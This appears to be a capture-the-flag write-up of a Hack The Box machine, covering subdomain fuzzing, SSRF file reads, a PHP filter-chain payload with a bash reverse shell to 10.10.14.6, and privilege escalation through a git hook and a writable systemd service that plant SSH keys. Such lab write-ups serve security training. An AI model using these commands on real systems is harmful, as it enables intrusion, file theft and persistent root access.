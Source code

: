 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 10.10.11.198
nmap -p 22,80 -sCV 10.10.11.198
```
- Ports open: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Hostname discovered: `haxtables.htb`

### Website Enumeration
- `/index.php?page=...` suggests PHP file includes
- Site for "string and number converter"
- `api.haxtables.htb` referenced

### Subdomain Enumeration
```
wfuzz -u http://10.10.11.198 -H "Host: FUZZ.haxtables.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 1999
```
- Discovered: `api.haxtables.htb`, `image.haxtables.htb`

### Directory Bruteforce
```
feroxbuster -u http://haxtables.htb -x php
```
- Found: `/handler.php`, `/includes/`, etc.

## Shell as www-data

### SSRF Discovery
- `/handler.php` POSTs to API using `uri_path`
- SSRF by injecting `@10.10.14.6` into `uri_path`

### File Read via `file://`
```python
json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
```
- File read works, use Flask proxy to exfil files easily

### Flask Proxy
```python
from flask import Flask, Response
import requests
...
@app.route('/<path:file>')
def get_file(file):
    req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
    resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
    return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")
```

### LFI to RCE via Filter Chain
```bash
python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
```
- SSRF to include malicious filter payload to trigger RCE

## Shell as svc

### Privilege Escalation via Git Hook
- `www-data` can sudo as `svc` via `/scripts/git-commit.sh`
- Git repo in `/var/www/image/.git`, writable by `www-data`
- Write `post-commit` hook to insert SSH key for `svc`
```bash
echo 'mkdir -p /home/svc/.ssh
echo "<pubkey>" >> /home/svc/.ssh/authorized_keys
chmod 600 /home/svc/.ssh/authorized_keys' > .git/hooks/post-commit
chmod +x .git/hooks/post-commit
```
- Modify work-tree to include new file:
```bash
git --work-tree /etc add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```
- SSH as `svc`

## Shell as root

### Privilege Escalation via Systemd
- `svc` can run `sudo systemctl restart *`
- `/etc/systemd/system` is writable by `svc`

### Malicious Service
```ini
# /etc/systemd/system/0xdf.service
[Unit]
Description=0xdf command service

[Service]
ExecStart=/tmp/0xdf
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target
```
```bash
# /tmp/0xdf
mkdir -p /root/.ssh
echo '<pubkey>' > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
touch /tmp/script_ran
chmod +x /tmp/0xdf
```
- Trigger with: `sudo systemctl restart 0xdf`

## Root Access
- SSH as `root` using injected key
- Read `/root/root.txt`